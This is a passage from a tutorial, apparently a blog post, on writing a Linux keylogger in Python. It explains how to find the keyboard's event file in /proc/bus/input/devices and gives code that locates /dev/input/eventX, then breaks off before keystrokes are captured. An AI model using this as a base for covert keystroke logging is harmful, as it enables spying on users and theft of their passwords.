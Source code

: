 This file describes the devices connected to the machine. It seems to be the right place to find out what we are looking for and which event our keyboard is referring to. You can find below a screenshot of the command output in my machine.

![image-2](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/bede86af28b5e86c89fb2666e0c5ed16-2.png "Image-2")

Each section on the file is referring to a device connected to the machine. Once you find the **keyboard** device section, focus on the line "H: Handlers" to catch the **eventX** id.

**How can we be sure that it's the correct keyboard event?**

To be sure that you did find the correct **eventX**, you must refer to the line "`B: EV =*`". This line describes the type of events sent. Whatever the king of machine we are using, a keyboard will always return "`EV = 120013`". So considering this and as my example, I can be sure that my keyboard is referring to as **event4**.

So now that we have our devices and we know in which file they write their stream, let move to the next step.

* * *

###### IMPLEMENT THE KEYLOGGER IN PYTHON

**Step one: Find the keyboard**

We will start by automating what we saw just before to find the right event file. The easiest way is to use regular expressions.

```python
with open("/proc/bus/input/devices") as f:
       lines = f.readlines()

       pattern = re.compile("Handlers|EV=")
       handlers = list(filter(pattern.search, lines))

       pattern = re.compile("EV=120013")

       for idx, elt in enumerate(handlers):
           if pattern.search(elt):
               line = handlers[idx - 1]

       pattern = re.compile("event[0-9]")
       infile_path = "/dev/input/" + pattern.search(line).group(0)

```

The above piece of code has for the function to open the file **/proc/bus/input/devices**, read it line by line and find simultaneously the lines of the Handlers (Where we find the event id) and the lines of the EV (Where we find the type of events).

It will return a list which should look like : [eventX, type, eventX, type, eventX, type, eventX, type, …]

It only remains to find the type that matches the keyboard (Where we have "EV = 120013") and choose the column before in the list which is the keyboard **eventX**.

**Step two: Pump Everything Up**
